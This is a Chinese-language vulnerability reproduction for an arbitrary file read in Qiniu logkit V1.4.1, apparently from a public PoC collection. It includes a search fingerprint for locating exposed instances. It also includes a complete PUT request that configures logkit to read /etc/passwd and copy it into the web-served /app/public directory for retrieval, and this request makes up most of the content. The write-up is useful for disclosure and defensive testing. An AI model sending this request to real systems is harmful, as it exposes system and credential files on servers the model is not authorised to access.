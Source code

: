 # 七牛云 logkit log_path 任意文件读取漏洞

## 漏洞描述

七牛云 logkit log_path 参数可自定义读取服务器文件，配合读取的文件写入Web目录将会使攻击者读取到服务器任意文件，造成服务器敏感信息泄漏

## 漏洞影响

<a-checkbox checked>七牛云 logkit V1.4.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="七牛Logkit配置文件助手"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650509317464-3b428310-57b3-4323-86b8-3bc96270dc91.png)

发送请求包配置读取文件

```php
PUT /logkit/configs/passwdread HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 356
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

{
  "name": "passwdread",
  "batch_interval": 1,
  "collect_interval": 1,
  "reader": {
    "mode": "file",
    "log_path": "/etc/passwd",
    "read_from": "oldest",
    "datasource_tag": "datasource",
    "encoding": "UTF-8"
  },
  "parser": {
    "type": "raw",
    "name": "parser",
    "timestamp": "true"
  },
  "transforms": [],
  "senders": [
    {
      "sender_type": "file",
      "file_send_path": "/app/public/passwd.log"
    }
  ]
}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650509841938-35e81793-6098-43ee-815d-311b45da7575.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650509983538-d5d3c3ef-8961-420a-b6e7-a7b2d526e585.png)

请求读取的文件 /app/public 目录为Docker默认Web路径，写入可读取目标文件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650509901001-6b9e9d97-8540-40cb-84f8-4b30523e1491.png)